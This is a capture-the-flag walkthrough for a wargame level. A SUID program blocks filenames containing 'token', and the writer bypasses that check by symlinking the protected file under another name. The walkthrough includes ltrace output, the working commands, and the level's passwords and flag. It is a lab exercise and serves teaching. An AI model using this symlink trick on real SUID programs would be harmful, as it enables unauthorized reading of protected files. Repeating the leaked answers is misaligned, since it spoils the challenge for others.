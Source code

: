 username: level08
password: fiumuikeil55xe9cu4dood66h
---

`level08` has SUID bit set, it can be run as its owner `flag08`. it takes a filename as argument and displays its content if it doesn't contain the word `token`, if it does it exits.

If we pass `token` as argument

```
$ ltrace ./level08 token 
...
strstr("token", "token")                                        = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                    = 27
...
```

And if we pass another file

```
$ ltrace ./level08 /etc/os-release
...
strstr("/etc/os-release", "token")                              = NULL
open("/etc/os-release", 0, 014435162522)                        = 3
read(3, "NAME="Ubuntu"\nVERSION="12.04.5 L"..., 1024)           = 141
write(1, "NAME="Ubuntu"\nVERSION="12.04.5 L"..., 141NAME="Ubuntu"
...
```

To read	`token`, a symlink with a diferent name is created and passed as argument to `level08`.

Executing the following command outputs the password for user `flag08`: quif5eloekouj29ke0vouxean

```
ln -s /home/user/level08/token /tmp/a && ./level08 /tmp/a
```

To get the flag, we ran the following

```
su flag08 -c getflag
```

The flag is: 25749xKZ8L7DkSCwJkT9dyv6f
